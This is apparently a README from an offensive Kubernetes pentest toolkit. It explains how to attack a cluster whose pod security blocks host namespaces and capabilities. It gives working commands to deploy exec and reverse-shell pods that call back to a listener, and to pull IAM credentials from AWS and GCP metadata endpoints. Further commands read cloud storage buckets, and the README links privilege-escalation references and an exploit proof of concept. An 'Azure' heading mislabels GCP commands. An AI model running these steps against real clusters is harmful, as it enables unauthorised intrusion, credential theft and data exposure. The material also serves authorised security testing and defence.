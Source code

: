 # Bad Pod #8: Nothing allowed

The pod security policy or admission controller has blocked access to all of the host's namespaces and restricted all capabilities. **Do not despair**, especially if the target cluster is running in a cloud environment. 

## Table of Contents
- [Bad Pod #8: Nothing allowed](#bad-pod-8-nothing-allowed)
  - [Table of Contents](#table-of-contents)
- [Pod creation & access](#pod-creation--access)
  - [Exec pods](#exec-pods)
  - [Reverse shell pods](#reverse-shell-pods)
- [Post exploitation](#post-exploitation)
  - [Cloud metadata](#cloud-metadata)
    - [AWS](#aws)
    - [GCP](#gcp)
  - [Overly permissive service account](#overly-permissive-service-account)
  - [Anonymous-auth](#anonymous-auth)
  - [Exploits](#exploits)
  - [Traditional vulnerability hunting](#traditional-vulnerability-hunting)
- [Reference(s):](#references)

# Pod creation & access

## Exec pods
Create one or more of these resource types and exec into the pod

**Pod**  
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/nothing-allowed/pod/nothing-allowed-exec-pod.yaml
kubectl exec -it nothing-allowed-exec-pod -- bash
```
**Job, CronJob, Deployment, StatefulSet, ReplicaSet, ReplicationController, DaemonSet**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 

```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/nothing-allowed/[RESOURCE_TYPE]/nothing-allowed-exec-[RESOURCE_TYPE].yaml 
kubectl get pods | grep nothing-allowed-exec-[RESOURCE_TYPE]      
kubectl exec -it nothing-allowed-exec-[RESOURCE_TYPE]-[ID] -- bash
```

*Keep in mind that if pod security policy blocks the pod, the resource type will still get created. The admission controller only blocks the pods that are created by the resource type.* 

To troubleshoot a case where you don't see pods, use `kubectl describe`

```
kubectl describe nothing-allowed-exec-[RESOURCE_TYPE]
```

## Reverse shell pods
Create one or more of these resources and catch the reverse shell

**Step 1: Set up listener**
```bash
ncat --ssl -vlp 3116
```

**Step 2: Create pod from local manifest without modifying it by using env variables and envsubst**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 
* Replace the HOST and PORT values to point the reverse shell to your listener
* 
```bash
HOST="10.0.0.1" PORT="3116" envsubst < ./manifests/nothing-allowed/[RESOURCE_TYPE]/nothing-allowed-revshell-[RESOURCE_TYPE].yaml | kubectl apply -f -
```

**Step 3: Catch the shell**
```bash
$ ncat --ssl -vlp 3116
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: Listening on :::3116
Ncat: Listening on 0.0.0.0:3116
Connection received on 10.0.0.162 42035
```

# Post exploitation

## Cloud metadata
If cloud hosted, try to access the cloud metadata service. You might get access to the IAM credentials associated with the node, or even just a cloud IAM credential created specifically for that pod. In either case, this can be your path to escalate within the cluster, within the cloud environment, or both.
### AWS
```bash
curl http://169.254.169.254/latest/user-data #Look for credentials or bucket names
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ #List's role name
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME] # Get creds
```
### GCP
Test to see if you have access to the metadata service:
```
curl -H "Metadata-Flavor: Google" 'http://metadata/computeMetadata/v1/instance/'
126817330210-compute@developer.gserviceaccount.com/
default/
```

### Azure


**See permissions assigned to default service account**
```
curl -H 'Metadata-Flavor:Google' http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/
https://www.googleapis.com/auth/devstorage.read_only
https://www.googleapis.com/auth/logging.write
https://www.googleapis.com/auth/monitoring
https://www.googleapis.com/auth/servicecontrol
https://www.googleapis.com/auth/service.management.readonly
https://www.googleapis.com/auth/trace.append
```

If you can query the metadata service, you can proceed with curl, but I suggest deploying another pod with the `gcr.io/google.com/cloudsdktool/cloud-sdk:latest` image. This allows you to use `gcloud` and `gsutil` as the node.

Something like this: 

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: nothing-allowed-gcloud-pod
  labels:
    app: pentest
spec:
  containers:
  - name: nothing-allowed-gcloud-pod
    image: gcr.io/google.com/cloudsdktool/cloud-sdk:latest
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
```

**Example: Find buckets, list objects, and read file contents**
```
root@nothing-allowed-gcloud-pod:/# gsutil ls
gs://playground-test123/

root@nothing-allowed-gcloud-pod:/# gsutil ls gs://playground-test123
gs://playground-test123/luggage_combination.txt

root@nothing-allowed-gcloud-pod:/# gsutil cat gs://playground-test123/luggage_combination.txt
12345
```

An awesome GCP privesc reference: https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/



## Overly permissive service account
If the default service account is mounted to your pod and is overly permissive, you can use that token to further escalate your privs within the cluster.

## Anonymous-auth
If either [the apiserver or the kubelets have anonymous-auth set to true](https://labs.f-secure.com/blog/attacking-kubernetes-through-kubelet/), and there are no network policy controls preventing it, you can interact with them directly without authentication. 

## Exploits
Is the kubernetes version vulnerable to an exploit, i.e. [CVE-2020-8558](https://github.com/tabbysable/POC-2020-8558)
## Traditional vulnerability hunting
Your pod will be able to see a different view of the network services running within the cluster than you likely can see from the machine you used to create the pod. You can hunt for vulnerable services by proxying your traffic through the pod. 

   [This write-up of a CTF challenge](https://keramas.github.io/2020/08/10/Recon-Village-CTF-at-DC28.html) created by Madhu Akula demonstrates a pretty common post exploitation pattern



# Reference(s): 

* https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/
* https://securekubernetes.com/
* https://madhuakula.com/kubernetes-goat/
* https://labs.f-secure.com/blog/attacking-kubernetes-through-kubelet/
* https://research.nccgroup.com/2020/02/12/command-and-kubectl-talk-follow-up/
* https://github.com/tabbysable/POC-2020-8558
